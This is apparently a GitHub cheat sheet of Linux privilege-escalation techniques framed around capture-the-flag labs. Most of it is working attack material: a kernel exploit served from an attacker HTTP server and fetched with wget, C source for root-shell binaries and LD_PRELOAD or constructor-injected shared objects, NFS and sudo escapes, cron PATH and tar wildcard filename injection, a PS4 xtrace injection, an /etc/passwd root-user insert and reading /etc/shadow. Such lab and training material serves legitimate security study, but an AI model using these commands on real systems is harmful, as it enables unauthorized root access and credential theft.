 ### ***Linux Privilege Escalation Examples***

<details>
<summary>Kernel Exploits</summary>
 <br> 
Step 1: Identify & Search for Exploits
The first step is to identify potential exploits for the target system. You can use Searchsploit to find known vulnerabilities for the specific kernel version.
    
    uname -a #will print the Kernel Version
    searchsploit linux 3.13.0-24
This will list exploits relevant to the kernel version. In this case, the target kernel version is 3.13.0-24.
![image](https://github.com/user-attachments/assets/5629083f-a755-4c84-be78-db0c17a3e6fe)

Step 2: Locate the Exploit
Once you’ve identified a suitable exploit, use the locate command to find its full path and inspect the code.

    locate linux/local/37292.c
    cat /usr/share/exploitdb/exploits/linux/local/37292.c
This shows the contents of the exploit file, which you'll need to compile and execute.
![image](https://github.com/user-attachments/assets/3647680d-156d-453a-9f3b-8adb43c9396f)

Step 3: Check for Compiler and Permissions
Before proceeding with the exploit, ensure the necessary tools and permissions are available on the target system.

Check for GCC: Ensure that the GCC compiler is installed.

    which gcc
Check File Permissions: Verify that you have write permissions to the directory where you’ll save the exploit.

    ls -la
 ![image](https://github.com/user-attachments/assets/22116cd7-9f80-4db0-b85c-2120955a17bc)

Step 4: Copy and Rename the Exploit
Next, copy the exploit code to your Downloads folder and rename it to something like ofs.c.

    sudo cp /usr/share/exploitdb/exploits/linux/local/37292.c /home/kali/Downloads/
    mv 37292.c ofs.c
![image](https://github.com/user-attachments/assets/28fa1d5a-7532-42b9-bd10-1cfbabc9bcfa)

Step 5: Set Up an HTTP Server to Serve the Payload
On your attacker machine, start an HTTP server to serve the payload file (ofs.c) to the victim machine.

    updog -p 80
On the victim machine, use wget to download the exploit:

    wget http://10.6.42.239/ofs.c
![image](https://github.com/user-attachments/assets/b8dc99c8-d633-4f6c-a42c-8273b7f7e63f)

Step 6: Compile the Exploit
Now that the exploit is on the victim’s machine, compile the C code to create the binary that will escalate privileges.

    gcc ofs.c -o ofs
    ./ofs
Step 7: Verify Root Access
Once the exploit runs successfully, you should have root privileges. Verify by checking your user ID with whoami.

    whoami
You should see root, indicating that you’ve escalated to root privileges.
![image](https://github.com/user-attachments/assets/7729b24c-ccb3-49b2-af83-32e608213bcd)

Step 8: Locate the Flag
As a final step, search for the flag file on the system. You can use the following commands to locate and read the flag:

    find / -name flag1.txt 2>/dev/null
    cat /home/matt/flag1.txt
![image](https://github.com/user-attachments/assets/6fd0400a-4cff-4a01-a06d-1640757f4df3)

Summary
Privilege Escalation: This technique involves using kernel exploits to escalate user privileges.

Exploit Search: Use tools like Searchsploit to find relevant vulnerabilities for your target system.

Payload Delivery: Serve the payload using an HTTP server and download it on the target machine.

Compilation and Execution: Compile the C code and run it to gain root access.

Find and Read Flag: After gaining root privileges, locate the flag file to complete the task.


</details>
<details>
<summary>NFS</summary>
 <br> 

NFS allows a host to share file system resources over a network. Access Control is based on the server's file system, and on the uid/gid provided by the connecting client.

Root squashing maps files owned by root (uid 0) to a different ID (e.g. anonymous or nobody). If the "no_root_squash" option is enabled, files owned by root will not get mapped. This means that as long as you access the NFS share as a root (uid 0) user, you can write to the host file system as root.


    $ cat /etc/exports

    /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

On your local machine, check that the NFS share is accessible:


    # showmount -e 10.0.0.1
    Export list for 10.0.0.1:
    /tmp *

On your local machine, make a directory to mount the remote share, and then mount it:


    # mkdir /tmp/mount
    # mount -o rw,vers=2 10.0.0.1:/tmp /tmp/mount
    # ls /tmp/mount
    backup.tar.gz  useless

Create an executable that calls /bin/bash with root level permissions in the mounted share and set the SUID bit:


    int main() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }


    # gcc -o rootsh rootsh.c
    # cp rootsh /tmp/mount
    # chmod +s /tmp/mount/rootsh

Now, back on the remote host, execute the executable to spawn a root shell:


    $ /tmp/rootsh
    #

Alternatively, on the remote host, copy the /bin/bash or /bin/sh binary to the NFS directory:


    $ cp /bin/bash /tmp

On your local machine, after mounting the NFS share, create new copies of the files (or chown them to root) and set the SUID/SGUID bits:


    # cp bash rootbash
    # chmod +s rootbash

    OR

    # chown root:root bash
    # chmod +s bash

Now, back on the remote host, run the file. For bash / sh, use the -p command line option to preserve the SUID/SGID (otherwise shell will simply spawn as your own user).


    $ /tmp/rootbash -p
    #

    OR

    $ /tmp/bash -p
    #
</details>

<details>
<summary>SUDO</summary>
 <br> 

Shell Escape Sequences
----------------------
Check Current Sudo Privileges
To check your current permissions related to sudo, you can use the following command:

    $ sudo -l
This will list the commands a user is allowed to run with sudo privileges. Based on this, an attacker may find a vulnerability to escalate privileges.
If a user has the ability to execute a command with sudo but doesn't have access to everything, we can search for payloads to leverage this.
search for payloads in https://gtfobins.github.io/

Exploit with Sudo
Assuming you can execute find with sudo, you can use the following command to spawn a shell with root privileges:

    sudo find . -exec /bin/sh \; -quit
![image](https://github.com/user-attachments/assets/1d174aff-f610-476e-bb4e-bb3d723280f9)

This command forces find to run a shell (/bin/sh) as root by using sudo. The -quit flag ensures that the find command stops executing immediately after spawning the shell.

Find Common Exploitable Binaries
Some binaries may be configured to allow root access when used with sudo. For example:

nano:
/usr/bin/nano is often a text editor installed on many Linux systems. If a user can run nano with root privileges, they can edit sensitive files, such as /etc/passwd.
![image](https://github.com/user-attachments/assets/e9e7c340-4896-4fe7-afec-00e1eb021b86)


less:
Similarly, less is a pager program, often used to view files. If improperly configured, it may allow privilege escalation:
![image](https://github.com/user-attachments/assets/ab8e392c-17f0-4c1e-be1d-61092cd8d27f)

Find the Flag
After successfully escalating privileges, you can search the system for the flag (or other sensitive files):

    find / -name flag.txt 2>/dev/null
Here, we look for a file called flag.txt and suppress any error messages.
![image](https://github.com/user-attachments/assets/d8883e72-a1a1-4fb4-bd40-dc2c3c781e46)

Find the Hash of Frank's Password
If the password file has been compromised or altered, you can often find hashes of user passwords, including Frank’s password:

      cat /etc/shadow | grep frank
Once you find the hash, you can try cracking it using tools like John the Ripper or Hashcat.
![image](https://github.com/user-attachments/assets/4ba1ec66-b320-40c7-8b8d-0d2d5fe25a1e)


Overwriting Files (Risky)

Warning: This command will overwrite important system files like /etc/passwd — don’t use this in production systems! This is useful only for Capture the Flag (CTF) scenarios or safe environments.

Here’s how you can potentially overwrite the /etc/passwd file to give yourself root access:
*** THIS WILL OVERWRITE THE PASSWD FILE, NOT A GOOD PRACTICE FOR CTF ***

    LFILE=/etc/passwd
    DATA='siren:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:siren:/home/siren:/bin/bash\n'
    sudo find / -maxdepth 0 -fprintf "$LFILE" "$DATA"
Explanation:

This command creates a new user called siren in the /etc/passwd file with root privileges by adding a new line.

This could allow you to access the system as the siren user with root access. However, remember that overwriting critical system files can be dangerous.
Abusing Intended Functionality
------------------------------


    $ sudo apache2 -f /etc/shadow
    Syntax error on line 1 of /etc/shadow:
    Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration

</details>

<details>
<summary>LD_PRELOAD</summary>
 <br> 
Environment variables:

* LD_LIBRARY_PATH - A list of directories in which to search for RLF libraries at execution time.
* LD_PRELOAD - A list of additional, user-specified, ELF shared objects to be loaded before all others.

Sudo has the ability to preserve certain environment variables:


    $ sudo -l
    Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD

Compile a shared object (.so) file:


    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

    void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }


    $ gcc -fPIC -shared -nostartfiles -o preload.so preload.c

Set the environment variable as part of the sudo command. The full path to the .so file needs to be used. Your user must be able to run the command via sudo.


    $ sudo LD_PRELOAD=/full/path/tp/preload.so apache2
    #
</details>

<details>
<summary>CORN JOB</summary>
 <br> 

Path
----

If PATH variable defined inside a crontab, and one of the paths is writable, and the cron job doesn't refer to an absolute path, we can exploit.


    $ cat /etc/crontab
    SHELL=/bin/sh
    PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    * * * * * root overwrite.sh

In the example above, /home/user is in the PATH and our user can write to it.

Create a /home/user/overwrite.sh script which makes a SUID/SGID bit version of bash:


    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash

Make the script executable:


    $ chmod +x /home/user/overwrite.sh

Now wait for the cron job to execute. When it does, execute the /tmp/rootbash binary and get a root shell. Remember to use the -p command line option to preserve the SUID/SGID:


    $ /tmp/rootbash -p
    #

Wildcards
---------

If the cron job script contains bash wildcards that reference files, and we can create files in the relevant directory, it may be possible to create files with filenames that can be used as command line flags.


    $ cat /etc/crontab
    ...
    * * * * * root /usr/local/bin/compress.sh


    $ cat /usr/local/bin/compress.sh
    #!/bin/sh
    cd /home/user
    tar czf /tmp/backup.tar.gz *

The tar executable has a checkpoint feature which displays progress messages every specific number of records. It also allows users to define an action that is executed during the checkpoint.

Create a script (runme.sh) which makes a SUID/SGID bit version of bash:


    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash

Make the script executable:


    $ chmod +x runme.sh

Create two files in the directory that the tar command is run in, with the filename set to the full command line options:


    touch /home/user/--checkpoint=1
    touch /home/user/--checkpoint-action=exec=sh\ runme.sh

Now wait for the cron job to execute. When it does, execute the /tmp/rootbash binary and get a root shell. Remember to use the -p command line option to preserve the SUID/SGID:


    $ /tmp/rootbash -p
    #

File Overwrite
--------------

If a cron job script is writable, we can modify it and run commands as root:


    $ cat /etc/crontab
    ...
    * * * * * root overwrite.sh


    $ locate overwrite.sh
    /usr/local/bin/overwrite.sh
    $ ls -l /usr/local/bin/overwrite.sh
    -rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh

The /usr/local/bin/overwrite.sh file is world-writable.

Overwrite the /usr/local/bin/overwrite.sh script with one that makes a SUID/SGID bit version of bash:


    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash

Now wait for the cron job to execute. When it does, execute the /tmp/rootbash binary and get a root shell. Remember to use the -p command line option to preserve the SUID/SGID:


    $ /tmp/rootbash -p
    #

File Permissions
================

Writable /etc/passwd
--------------------

On some \*nix distributions, if /etc/passwd is writable, we can add a new root user with no password, since the only thing that matters is the uid being 0:


    $ echo newroot::0:0:root:/root:/bin/bash >> /etc/passwd

Now use su to switch user:


    $ su newroot
    #


</details>

<details>
<summary>SUID Binaries</summary>
 <br> 
Shared Object Injection
^^^^^^^^^^^^^^^^^^^^^^^

Shared Objects (.so) are the \*nix equivalent of Windows DLLs. If a program references a shared object that we can write to (even if it doesn't exist) we can run commands with the user context of the application.

Find SUID/SGID binaries:


    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    -rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
    -rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
    -rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
    -rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
    -rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
    -rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
    -rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
    -rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
    -rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
    -rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
    -rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
    -rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
    -rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
    -rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
    -rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
    -rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
    -rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
    -rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
    -rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
    -rwsr-sr-x 1 root root 16664 Feb  9 13:43 /tmp/rootsh
    -rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs

Use strace to find references to shared objects:


    $ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
    access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
    open("/etc/ld.so.cache", O_RDONLY)      = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libdl.so.2", O_RDONLY)       = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libm.so.6", O_RDONLY)        = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libc.so.6", O_RDONLY)        = 3
    open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)

The shared object /home/user/.config/libcalc.so is referenced, but it doesn't exist. Luckily it is in a writable directory.

Create a C program (libcalc.c) and compile it to a shared object:


    #include <stdio.h>
    #include <stdlib.h>

    static void inject() __attribute__((constructor));
    void inject() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }


    $ gcc -shared -fPIC -o libcalc.so libcalc.c

Move the libcalc.so shared object to the path referenced by the SUID binary:


    $ mkdir -p /home/user/.config
    $ cp libcalc.so /home/user/.config/libcalc.so

Now run the SUID binary, it should give you a root shell immediately:


    $ suid-so
    Calculating something, please wait...
    root@debian:~# 

Symlink
^^^^^^^

TODO

Environment Variables - Relative Paths
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Find SUID/SGID binaries:


    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    -rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
    -rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
    -rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
    -rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
    -rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
    -rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
    -rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
    -rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
    -rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
    -rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
    -rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
    -rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
    -rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
    -rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
    -rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
    -rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
    -rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
    -rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
    -rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
    -rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs

Use strings to find any strings in the executable, especially system commands:


    $ strings /usr/local/bin/suid-env
    /lib64/ld-linux-x86-64.so.2
    5q;Xq
    __gmon_start__
    libc.so.6
    setresgid
    setresuid
    system
    __libc_start_main
    GLIBC_2.2.5
    fff.
    fffff.
    l$ L
    t$(L
    |$0H
    service apache2 start

The "service" command doesn't have an absolute path. When it is called, \*nix will try to find it by traversing the PATH environment variable. We can modify the PATH variable and create a malicious version of the service binary which will spawn a root shell when it is run.

First create a C program (service.c):


    int main() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }

Compile it to our malicious binary:


    $ gcc -o /tmp/service service.c

Add /tmp to the start of the PATH environment variable and export it:


    $ export PATH=/tmp:$PATH

Now run the original SUID/SGID binary. A root shell should spawn:


    $ /usr/local/bin/suid-env
    #

Environment Variables - Absolute Paths
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Find SUID/SGID binaries:


    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    -rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
    -rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
    -rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
    -rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
    -rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
    -rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
    -rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
    -rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
    -rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
    -rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
    -rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
    -rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
    -rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
    -rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
    -rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
    -rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
    -rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
    -rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
    -rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
    -rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs

Use strings to find any strings in the executable, especially system commands:


    $ strings /usr/local/bin/suid-env2
    /lib64/ld-linux-x86-64.so.2
    __gmon_start__
    libc.so.6
    setresgid
    setresuid
    system
    __libc_start_main
    GLIBC_2.2.5
    fff.
    fffff.
    l$ L
    t$(L
    |$0H
    /usr/sbin/service apache2 start

The /usr/sbin/service command seems to be interesting, however it has an absolute path and cannot be edited.

Some versions of Bash (<4.2-048) and Dash let you define functions with the same name as an absolute path. These then take precedent above the actual executable themselves.

Define a bash function "/usr/sbin/service" that creates an SUID/SGID version of bash:


    $ function /usr/sbin/service() { cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash && /tmp/rootbash -p;}

Export the new function:


    $ export -f /usr/sbin/service

Now run the original SUID/SGID binary. A root shell should spawn:


    $ /usr/local/bin/suid-env2
    #

Bash also supports a script debugging mode, and uses the PS4 environment variable to define a prompt for the debugging mode.

We can get an instance root shell:


    env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash && chown root:root /tmp/rootbash && chmod +s /tmp/rootbash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/rootbash -p'

Startup Scripts
---------------

Startup scripts are stored under /etc/init.d, and are usually run with elevated privileges.

Find world-writable startup scripts:


    $ find /etc/init.d -perm -o+w -type f -exec ls -l {} \; 2>/dev/null
    -rwxr-xrwx 1 root root 801 May 14  2017 /etc/init.d/rc.local

Edit the script and add some code that creates an SUID/SGID bash shell:


    cp /bin/bash /tmp/rootbash
    chown root:root /tmp/rootbash
    chmod +s /tmp/rootbash

Now restart the remote host, and once the host is restarted, spawn a root shell:


    $ /tmp/rootbash -p
    #

Configuration Files
-------------------

Configuration files are usually stored in /etc.

Check writable files to see if we can introduce misconfigurations (e.g. if /etc/exports is writable, we can define NFS shares with root squashing turned off).

##########################
Linux Privilege Escalation
##########################

* https://github.com/mubix/post-exploitation
* https://github.com/spencerdodd/kernelpop
* https://github.com/SecWiki/linux-kernel-exploits
* https://www.google.com/search?q=kernel+exploits
* https://github.com/NullArray/RootHelper
* https://greysec.net/showthread.php?tid=1355
* https://github.com/DominicBreuker/pspy
* https://touhidshaikh.com/blog/?p=790
* http://blog.securelayer7.net/abusing-sudo-advance-linux-privilege-escalation/
* https://gtfobins.github.io/
* https://guif.re/linuxeop
* https://github.com/sagishahar/lpeworkshop
* https://github.com/codingo/OSCP-2
* https://infamoussyn.wordpress.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/
* https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/
* https://docs.ansible.com/ansible/latest/user_guide/become.html
* https://payatu.com/guide-linux-privilege-escalation/
* https://github.com/Arrexel/phpbash
